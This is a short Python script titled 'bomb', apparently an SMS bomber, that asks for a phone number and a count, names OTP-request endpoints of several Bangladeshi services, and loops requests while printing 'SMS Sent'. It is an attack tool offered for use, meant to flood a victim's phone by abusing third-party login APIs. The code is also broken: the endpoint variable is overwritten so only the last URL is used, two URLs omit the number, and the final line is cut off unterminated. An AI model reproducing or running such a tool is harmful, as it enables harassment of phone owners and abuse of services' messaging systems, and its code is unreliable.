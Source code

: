# bomb
Bomb
import requests

# GET
number=str(input( " Enter You Number : "))


api="https://stage.bioscopelive.com/en/login/send-otp?phone=88"+number+"&operator=bd-otp"

api="https://assetliteapi.banglalink.net/api/v1/user/otp-login/request"


api="https://api-v4-1.hungrynaki.com/graphql"

amount=int(input( " Enter Your Amount : "))

for i in range(amount):
    requests.get(api)
    print(str(i+1)+" SMS Sent
